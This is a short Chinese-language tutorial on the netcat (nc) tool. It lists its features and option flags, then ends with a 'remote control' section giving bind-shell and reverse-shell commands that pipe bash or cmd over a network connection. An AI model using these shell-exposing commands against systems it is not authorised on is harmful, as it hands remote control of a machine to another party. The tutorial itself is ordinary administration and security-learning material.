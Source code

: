 # netcat(nc)

## 简介

NC（netcat）被称为网络工具中的瑞士军刀，体积小巧，但功能强大。

Nc可以在两台设备上面相互交互，即侦听模式/传输模式。

* telnet功能
* 获取banner信息
* 传输文本信息
* 传输文件/目录
* 加密传输文件
* 远程控制
* 加密所有流量
* 流媒体服务器
* 远程克隆硬盘

## 具体使用

* -c shell commands  shell模式
* -e filename          程序重定向 [危险!!]
* -b  允许广播
* -d   无命令行界面,使用后台模式
* -g gateway       源路由跳跃点, 不超过8
* -G num          源路由指示器: 4, 8, 12, ...
* -h              获取帮助信息
* -i secs           延时设置,端口扫描时使用
* -k  设置在socket上的存活选项
* -l               监听入站信息
* -n              以数字形式表示的IP地址
* -o file           十进制记录
* -p port          本地端口
* -r               随机本地和远程的端口
* -q secs 在标准输入且延迟后退出（翻译的不是很好，后面实例介绍）
* -s addr 本地源地址
* -T tos 设置服务类型
* -t               以TELNET的形式应答入站请求
* -u UDP模式
* -v               显示详细信息 [使用=vv获取更详细的信息
* -w secs          连接超时设置
* -z               I/O 模式 [扫描时使用]


### nc远程控制

- 正向连接
  A:nc -lp port -c bash
  B:nc ip port
  A将自己的Bash发给B
- 反向连接
  A:nc -lp port
  B:nc ip port -c bash
  B将自己的Bash发给A
  win下Bash换成cmd